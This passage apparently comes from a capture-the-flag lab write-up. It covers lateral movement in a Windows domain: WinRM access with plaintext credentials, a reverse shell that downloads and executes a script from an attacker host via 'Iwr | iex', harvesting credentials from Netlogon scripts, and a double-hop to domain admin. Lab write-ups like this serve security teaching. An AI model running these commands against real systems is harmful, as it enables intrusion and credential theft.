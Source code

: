 
### 10. Accessing the File Server
- **Technique**: WinRM with credentials
- **Details**:
  - Used `btables` credentials (`fulcrum\btables:fileserverlogin12345`) to access the file server (`file.fulcrum.local`):
    ```powershell
    $secPass = ConvertTo-SecureString "fileserverlogin12345" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("fulcrum\btables", $secPass)
    Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { whoami }
    ```
  - Attempted a reverse shell using a PowerShell one-liner (`invoke-conPtyShell.ps1`) on port 53 (DNS, as it was open):
    ```powershell
    Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock {
        Iwr http://[ATTACKER-IP]:80/invoke-conPtyShell.ps1 | iex
    }
    ```
  - Successfully obtained a shell on the file server as `btables`.

---

### 11. Enumerating File Server for Credentials
- **Technique**: Accessing Netlogon scripts
- **Details**:
  - Mounted the Netlogon share: `net use z: \\dc.fulcrum.local\netlogon /user:fulcrum\btables fileserverlogin12345`.
  - Found PowerShell scripts in the Netlogon share containing credentials.
  - Identified credentials for `923a` (password: `923a`) in a script using:
    ```powershell
    Get-ChildItem *.ps1 | Select-String "923a" | Select-Object -Unique
    ```

---

### 12. Accessing the Domain Controller
- **Technique**: Chaining Invoke-Command for double-hop
- **Details**:
  - Used `923a` credentials (`fulcrum\923a:923a`) to access the domain controller (`dc.fulcrum.local`):
    ```powershell
    $secPassBtables = ConvertTo-SecureString "fileserverlogin12345" -AsPlainText -Force
    $credBtables = New-Object System.Management.Automation.PSCredential("fulcrum\btables", $secPassBtables)
    $secPass923a = ConvertTo-SecureString "923a" -AsPlainText -Force
    $cred923a = New-Object System.Management.Automation.PSCredential("fulcrum\923a", $secPass923a)
    Invoke-Command -ComputerName file.fulcrum.local -Credential $credBtables -ScriptBlock {
        Invoke-Command -ComputerName dc.fulcrum.local -Credential $args[0] -ScriptBlock { whoami }
    } -ArgumentList $cred923a
    ```
  - Confirmed domain admin access on `dc.fulcrum.local` and located `root.txt`.

---